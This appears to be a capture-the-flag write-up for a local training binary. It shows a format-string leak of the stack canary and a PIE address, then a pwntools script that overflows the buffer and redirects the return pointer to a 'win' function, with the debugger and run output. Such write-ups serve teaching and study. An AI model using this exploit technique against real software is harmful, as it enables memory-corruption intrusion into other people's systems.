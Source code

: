 # 07_ret_overwrite_pieWcanary_leak Writeup

## Steps:
1. Run chall. Notice in this one PIE is enabled and has a canary that needs to be leaked. This is similar to 05 with a leak but PIE is enabled.
```
$ ./chall 

Your goal is to modify the return pointer @ 0x7ffdc4a05008, to a function called 'win' in the binary.

This binary has PIE enabled and a canary, you must bypass both via a leak. You can leak both in one shot.
Especially if you have a good understanding of format strings.

0x7ffdc4a04fe0: 0x0000000000000000 0x0000000000000000 
0x7ffdc4a04ff0: 0x0000000000000000 *****REDACTED*****
0x7ffdc4a05000: 0x0000000000000001 0x00007f564248bca8 

Enter your name: AAAA
Hello, AAAA. Good luck!


Enter input: AAAA

0x7ffdc4a04fe0: 0x0000000a41414141 0x0000000000000000 
0x7ffdc4a04ff0: 0x0000000000000000 *****REDACTED*****
0x7ffdc4a05000: 0x0000000000000001 0x00007f564248bca8 

You failed to overwrite the return pointer and canary.
```
2. Using gdb gef, identify which stack addresses hold the `canary` and the `return pointer`

```
gef➤  canary
[+] The canary of process 95107 is at 0x7ffff7dad768, value is 0x1c0f98ad999f1f00
gef➤  x/20gx $rsp
0x7fffffffdc50: 0x0000000000000000      0x0000555555558068
0x7fffffffdc60: 0xffffffffffffffff      0xffffffffffffffff
0x7fffffffdc70: 0x0000000000000000      0x0000000000000000
0x7fffffffdc80: 0x0000000000000000      0x1c0f98ad999f1f00
0x7fffffffdc90: 0x0000000000000001      0x00007ffff7dd9ca8
0x7fffffffdca0: 0x00007fffffffdd90      0x0000555555555637
0x7fffffffdcb0: 0x0000000155554040      0x00007fffffffdda8
0x7fffffffdcc0: 0x00007fffffffdda8      0xee4afa5fcbd4e049
0x7fffffffdcd0: 0x0000000000000000      0x00007fffffffddb8
0x7fffffffdce0: 0x00007ffff7ffd000      0x0000000000000000
```
- Notice the canary is at `13`
- `info fun win` gives us `0x0000555555555619  win` and stack `7` is `0x0000555555558068`, so `0x8068 - 0x5619 = 0x2a4f` is the offset

    **Note: This can also be done by leaking stack 17, which containts the address of main (the offset would just differ)**
  
3. Write a format string that leaks the 7th and 13th stack values
4. Create the payload, similar to previous problems
- 24 bytes of garbage to reach canary
- address of `canary`, stack 13
- 8 bytes of garbage to reach return pointer
- address of `win`, stack 7 minus offset
```
from pwn import *

target = process("./chall")

target.sendline(b"%13$p,%7$p")
target.recvuntil("Hello, 0x")
canary = target.recvuntil(",0x")[:-3]
hint = target.recvuntil(".")[:-1]
print("hint",hint)
print("canary",canary)

win = int(hint, 16) - 0x2A4F
canary = int(canary,16)


payload = b"A" * 24
payload += p64(canary)
payload += b"B" * 8
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py 
[+] Starting local process './chall': pid 102732
/home/kali/Binex-Writeups/binex_tuts/07_ret_overwrite_pieWcanary_leak/exploit.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.recvuntil("Hello, 0x")
/home/kali/Binex-Writeups/binex_tuts/07_ret_overwrite_pieWcanary_leak/exploit.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  canary = target.recvuntil(",0x")[:-3]
/home/kali/Binex-Writeups/binex_tuts/07_ret_overwrite_pieWcanary_leak/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  hint = target.recvuntil(".")[:-1]
hint b'55a500a5e068'
canary b'272ef710f8323f00'
[+] Receiving all data: Done (313B)
[*] Process './chall' stopped with exit code 0 (pid 102732)
 Good luck!


Enter input: 
0x7fff6fbac300: 0x4141414141414141 0x4141414141414141 
0x7fff6fbac310: 0x4141414141414141 *****REDACTED*****
0x7fff6fbac320: 0x4242424242424242 0x000055a500a5b619 

Congrats, you successuly changed execution flow!
```
